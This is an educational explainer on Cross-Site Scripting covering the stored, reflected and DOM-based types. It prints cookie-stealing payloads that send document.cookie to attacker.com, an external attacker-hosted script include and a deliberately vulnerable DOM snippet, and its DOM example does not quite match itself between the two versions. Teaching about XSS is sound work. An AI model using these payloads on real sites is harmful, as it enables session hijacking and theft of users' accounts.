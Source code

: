# Cross-Site Scripting \(XSS\)

Web applications usually respond to HTTP requests from a user's browser or other application. The server application will send a mixture of HTML, CSS and JavaScript that will be rendered and executed by the client. The browser will take the HTML and create a document object model \(DOM\) of the page using the CSS to style and format the HTML. Finally, JavaScript may be executed, and this could dynamically change the DOM and styling. Using JavaScript in this way helps to make the page responsive and avoiding round trips on the network back to the server. All of this makes the code that executes on the client vulnerable to attack in a number of different points in this process.

Cross-site scripting is another example of allowing unchecked and unsanitized input. In this case, the input is of HTML and JavaScript. If the JavaScript is executed by a target's browser, there is the potential to do a number of malicious things including:

* JavaScript to steal cookies that may contain session tokens that can be used for impersonation of a user.
* Use HTML5 to gain access to microphones, cameras and other devices on the computer
* Keylogging by registering event listeners
* Make other HTTP requests to carry out Server-Side Request Forgery \(SSRF\) attacks
* Change the appearance of the page to abuse the target

XSS relies on the targeted user to interact with URLs and to potentially allow access when requested, so it relies heavily on social engineering techniques to trick a user into doing things on the attacker's behalf. In this respect though, it is not that dissimilar to phishing attacks generally.

There are three main types of XSS. The first two differ in whether they are persistent or not.

## Stored XSS

Stored XSS is where an attacker injects malicious content that is stored by the application and then served up to other victims who visit the site. An example of this is would be injecting script into the input of a comment feature on a site which then gets displayed to other users. The script can be crafted to steal cookies by using the code:

```javascript
<script>window.location="http://attacker.com/?cookie=" + document.cookie</script>
```

Javascript can be incorporated into other HTML elements such as

```javascript
<img src="javascript:alert('XSS');">
```

More sophisticated scripts can be included from external sources:

```javascript
<script src=http://attacker.com/xss.js></script>
```

## Reflected XSS

This is a non-persistent XSS attack where the target is tricked into clicking a link to a site that incorporates the malicious script. An example of this would be tricking a target to click on a search link:

```markup
<a href=http://search.com/search?keyword=<script>window.location='http://attacker.com/?cookie=' + document.cookie</script>;>Click Here</a>
```

The script would be executed when the search function prints the results:

```text
You searched for: <script>window.location='http://attacker.com/?cookie=' + document.cookie</script>
Results: …
```

Again the user needs to be tricked into clicking a link and ideally not noticing the results of that click.

## DOM-based XSS

In DOM-based XSS, the attacker uses the existing scripts on a page to write malicious code to the page itself where it is then executed. All of this can happen on the client when the page's javaScript is executed bypassing any filtering or protection on the server itself.

Taking the requested URL from the previous example

`http://search.com/search?keyword=javascript:alert("DOM XSS on: " + document.domain)`

The following HTML would be vulnerable:

```markup
<html>
Your search: <em></em>
<script>
  var keyword = location.search.substring(9);
  document.querySelector('em').innerHTML = keyword;
  window.location=document.querySelector('em').innerHTML
</script>
</html>
```

This would then result in the malicious script being included in the page:

```markup
<html>
Your search: <em>javascript:alert("DOM XSS on: " + document.domain)</em>
<script>
  var keyword = location.search.substring(6);
  document.querySelector('em').innerHTML = keyword;
</script>
</html>
```

This would result in an alert being popped up.

